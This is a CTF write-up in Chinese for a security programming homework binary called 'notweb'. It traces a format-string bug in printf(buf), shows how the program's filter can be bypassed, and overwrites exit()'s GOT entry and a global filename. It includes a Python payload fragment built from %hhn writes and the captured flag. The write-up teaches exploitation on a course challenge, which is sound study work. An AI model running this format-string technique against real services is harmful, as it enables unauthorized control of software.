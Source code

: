 ================
 notweb Writeup
================

:date: 2014-11-27 18:00
:modified: 2014-12-17 01:31
:tags: secprog, ctf, writeup
:category: memo
:slug: notweb-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 3-2

Finding Weak Points
===================

使用 gdb 進行 dynamic analysis 發現 ``main()`` 會 call ``get_request()`` ，下斷
點在 call ``get_request()`` 的地方 step in 進去一步一步看。程式呼叫 ``fgets()``
讀取 input，並會以 ``strtok()`` 根據空白來截斷字串。若整個 string 只有一個 word
的話會 call exit 程式結束，否則繼續執行下去。

.. code-block:: nasm

    08048a51:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
    08048a54:       83 7d ec 00             cmp    DWORD PTR [ebp-0x14],0x0
    08048a58:       75 0c                   jne    8048a66 <get_request+0x90>
    08048a5a:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
    08048a61:       e8 ea fb ff ff          call   8048650 <exit@plt>

``buf`` 吃進一行所有 input，並依序依照 ' ' 和 ':' 來截斷各個 token，示意圖如下：

.. code-block:: text

    ORIGINAL INPUT:

    GET /echo:%x%x%x%x%x
    |   |     |
    |   |     v
    |   v     被存入 ``main()`` 中的 local variable，在此以 ``s`` 作為範例
    v   字串長度為 5，第一個字元後被存入 global ``file``
    被捨棄

此外在 ``echo()`` 中看到又 ``printf(buf)`` 這樣的 code，可利用 format string
leak 任意 memory 甚至寫值進去。

xxx yyy:zzz

yyy <= 19: filename
zzz 可以 100000 長

0x0804b140: <buf>
0x080637e0: <file>

Weird Filter
============

在 ``get_request()`` 中，return 前會將 global ``buf`` 前 n 個字元清空，導致在
``filter_format()`` 中的第二個 for loop 不會有效果。因為 global ``buf`` 前段早已
被清為 0，一開始字串長度判定是 0，馬上離開 for loop。因此 global ``buf`` 維持原
樣，'%' 不會被替換為 '_'。

在 ``echo()`` 中，呼叫完 ``filter_format()`` 後，會將 ':' 後的字串（'%' 已被替換
成 '_'）複製到 global ``buf`` 的前段，導致可能覆蓋到 global ``buf`` 中  ':' 後的
字串（'%' 未被替換為 '_'），因此若要利用 format string 來進行 exploit 的話，需要
額外的計算以確保目標 string 不被程式破壞。

根據上述所提供的範例輸入字串，在 ``echo()`` 中執行 ``printf(buf)`` 前 global
``buf`` 的值會是：

.. code-block:: text

    _x_x_x_x_x\nx%x%x%x%x\n

印出來的的結果會是：

.. code-block:: text

    _x_x_x_x_x
    xfffe4f4cbf7f4b3d00

如果 ':' 後的字串長度（包含 '\n'）長度剛好是 10 的話，可以蓋到 ':' 那格（':' 因
``strtok`` 而被置換為 string terminator），如此一來字串又可以重新連成一氣，':'
後面即是我們原本的 format string。

若長度不足 10 的話，就在 ':' 與 format string 之間補字元（內容不重要），確保可以
重新把 global ``buf`` 接起來：

.. code-block:: text

    GET /echo:aaaaaaa%p

長度大於 10 的字串，必須要在 input 最前面補上多出來的部分（內容不重要），才不會
蓋到後面的 format string：

.. code-block:: text

    GGET /echo:%p%p%p%p%p

Objective
=========

在 ``echo()`` 中它的 return address 位於 $esp+0x1c，也就是用 ``%7$p`` 可以 leak
return address（當然要補滿到 10 個字元）。我們的目標是改寫這裏的 address
（0x0804917f）成 ``normal_file()`` 的 address（0x08048c8f）。除此之外 global
``file`` 的內容也要改成 "flag"，如此以來 ``normal_file()`` 才能開啟 flag 並且讀
取內容。但事情並沒有想像中的那般單純，因為 remote 端有開啟 ASLR，因此 return
address 實際上在 stack 中的位置我們是無法得知的，就無法透過 format string 的方式
寫值。

Return address 無法修改，但其實還有別的方法可以控制 $eip，就是運用 GOT table。
``fflush()`` 在 GOT table 中的 offset 為 0x804b018 其內容為 ``fflush()`` 實際所
在的位置（0xf7e78760）。只要將 ``fflush()`` 所在位置移花接木到 ``normal_file()``
即可。但在實測後發現 ``normal_file()`` 中也有 ``fflush()`` ，這將導致無窮遞迴。
改用 ``exit()`` 即可避免。 ``exit()`` 在 GOT table 中的 offset 為 0x0804b03c。

.. code-block:: bash

    $ readelf -r notweb

    Relocation section '.rel.dyn' at offset 0x49c contains 3 entries:
     Offset     Info    Type            Sym.Value  Sym. Name
     0804affc  00000c06 R_386_GLOB_DAT    00000000   __gmon_start__
     0804b080  00001805 R_386_COPY        0804b080   stdin
     0804b0a0  00001605 R_386_COPY        0804b0a0   stdout

    Relocation section '.rel.plt' at offset 0x4b4 contains 21 entries:
     Offset     Info    Type            Sym.Value  Sym. Name
     0804b00c  00000107 R_386_JUMP_SLOT   00000000   strstr
     0804b010  00000207 R_386_JUMP_SLOT   00000000   strcmp
     0804b014  00000307 R_386_JUMP_SLOT   00000000   printf
     0804b018  00000407 R_386_JUMP_SLOT   00000000   fflush
     0804b01c  00000507 R_386_JUMP_SLOT   00000000   memcpy
     0804b020  00000607 R_386_JUMP_SLOT   00000000   bzero
     0804b024  00000707 R_386_JUMP_SLOT   00000000   fgets
     0804b028  00000807 R_386_JUMP_SLOT   00000000   fclose
     0804b02c  00000907 R_386_JUMP_SLOT   00000000   chdir
     0804b030  00000a07 R_386_JUMP_SLOT   00000000   fseek
     0804b034  00000b07 R_386_JUMP_SLOT   00000000   fread
     0804b038  00000c07 R_386_JUMP_SLOT   00000000   __gmon_start__
     0804b03c  00000d07 R_386_JUMP_SLOT   00000000   exit
     0804b040  00000e07 R_386_JUMP_SLOT   00000000   strlen
     0804b044  00000f07 R_386_JUMP_SLOT   00000000   __libc_start_main
     0804b048  00001007 R_386_JUMP_SLOT   00000000   write
     0804b04c  00001107 R_386_JUMP_SLOT   00000000   ftell
     0804b050  00001207 R_386_JUMP_SLOT   00000000   fopen
     0804b054  00001307 R_386_JUMP_SLOT   00000000   strncpy
     0804b058  00001407 R_386_JUMP_SLOT   00000000   strtok
     0804b05c  00001507 R_386_JUMP_SLOT   00000000   sprintf

除了控制 $eip 以外，還有 global variable ``file`` 需要將其值改寫為 "flag"。

Exploitation
============

關鍵在於如何同時設計好 payload 又可以完美的不被程式的 filter 給破壞掉原本的
format string。 以下為 exploit 程式的主要片段。

.. code-block:: python

    # exit()'s offset in GOT showed up in stack fram
    # normal_file() @ 0x08048c8f
    # total 16 bytes
    addr1  = struct.pack('<I', 0x0804b03c) # 0x8f
    addr1 += struct.pack('<I', 0x0804b03d) # 0x8c
    addr1 += struct.pack('<I', 0x0804b03e) # 0x04
    addr1 += struct.pack('<I', 0x0804b03f) # 0x08

    # file's address showed up in stack frame
    # file @ 0x080637e0
    # total 16 bytes
    addr2  = struct.pack('<I', 0x080637e0) # 'f': 0x66 102
    addr2 += struct.pack('<I', 0x080637e1) # 'l': 0x6c
    addr2 += struct.pack('<I', 0x080637e2) # 'a': 0x61
    addr2 += struct.pack('<I', 0x080637e3) # 'g': 0x67

    inject1 = '%7c%15$hhn%253c%16$hhn%120c%17$hhn%4c%18$hhn' # 44 bytes
    inject2 = '%78c%30$hhn%6c%31$hhn%245c%32$hhn%6c%33$hhna' # 44 bytes

    padding = 'G'*110

    payload = padding + 'GET /echo:' + addr1 + inject1 + addr2 + inject2 + '\n'

Flag
====

The flag is:

.. code-block:: text

    SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}

